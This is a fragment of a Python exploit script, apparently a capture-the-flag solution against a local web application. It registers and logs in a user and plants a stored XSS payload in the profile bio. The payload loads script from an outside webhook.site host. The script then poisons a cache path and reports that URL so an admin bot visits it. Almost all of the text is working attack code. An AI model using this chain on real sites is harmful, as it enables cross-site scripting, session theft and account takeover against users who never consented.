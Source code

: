 ```python
    register_page.raise_for_status()

    authenticity_token = getAuthenToken(register_page.text)

    register_payload = {
        "username": username,
        "password": password,
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/register", data=register_payload)
    response.raise_for_status()


def login():
    login_page = session.get(f"{base_url}/login")
    login_page.raise_for_status()

    authenticity_token = getAuthenToken(login_page.text)

    login_payload = {
        "username": username,
        "password": password,
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/login", data=login_payload)
    response.raise_for_status()

def updateSettings():
    setting_page  = session.get(f"{base_url}/settings")
    setting_page.raise_for_status()

    authenticity_token = getAuthenToken(setting_page.text)

    setting_payload = {
        "_method": "patch",
        "username": username,
        "bio":"![\x1b$@](test.png)+\x1B(B+![batman](onerror=s=document.createElement('script');s.src='https://webhook.site/aa05fd5b-f4da-42ee-9c08-75cc1d9a6de9';document.body.appendChild(s);//)",
        "commit":"Update+Settings",
        "authenticity_token": authenticity_token
    }

    response = session.post(f"{base_url}/settings", data=setting_payload)
    response.raise_for_status()

def cachePoison():
    session.get(f"{base_url}/settings.ico")
    session.get(f"{base_url}/settings.ico")

def reportURL():
    report_page  = session.get(f"{base_url}/report")
    report_page.raise_for_status()

    authenticity_token = getAuthenToken(report_page.text)

    report_payload = {
        "contract_url": "http://127.0.0.1:1337/settings.ico",
        "commit": "Report",
        "authenticity_token": authenticity_token
    }

```